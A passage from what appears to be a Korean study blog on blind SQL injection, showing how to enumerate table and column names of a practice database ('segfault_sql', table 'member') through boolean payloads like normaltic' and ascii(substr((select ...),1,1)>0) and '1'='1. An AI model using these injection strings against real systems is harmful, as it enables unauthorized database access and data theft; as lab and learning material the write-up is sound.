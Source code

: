 table 이름 확인하는 법은  
select table_name from information_schema.tables where table_schema='DB name' limit 0,1 이므로,   
<br>

공격 format   
normaltic' and ascii(substr((<span style="font-weight:bold; color: orange">select~~~</span>),1,1)>0) and '1'='1  
에 대입한다.   
<br>

normaltic' and ascii(substr((<span style="font-weight:bold; color: orange">select table_name from information_schema.tables where table_schema='segfault_sql' limit 0,1</span>),1,1)>0) and '1'='1

<br>

<img src="/images/2024-06-01-SQLinjection16/image-20240601131408387.png" alt="image-20240601131408387" style="zoom:67%;" />

#### <span style="background:#A9A9A9; color:#ffffff">1.2.2.6 column 이름 확인하기</span>

***

<br>

column 이름 확인하는 법은  
select column_name from information_schema.columns where table_name='table name' limit 0,1 이므로,   
<br>

공격 format   
normaltic' and ascii(substr((<span style="font-weight:bold; color: orange">select~~~</span>),1,1)>0) and '1'='1  
에 대입한다.   
<br>

normaltic' and ascii(substr((<span style="font-weight:bold; color: orange">select column_name from information_schema.columns where table_name='member' limit 0,1</span>),1,1)>0) and '1'='1



<br>

<img src="/images/2024-06-01-SQLinjection16/image-20240601131555791.png" alt="image-20240601131555791" style="zoom:67%;" />
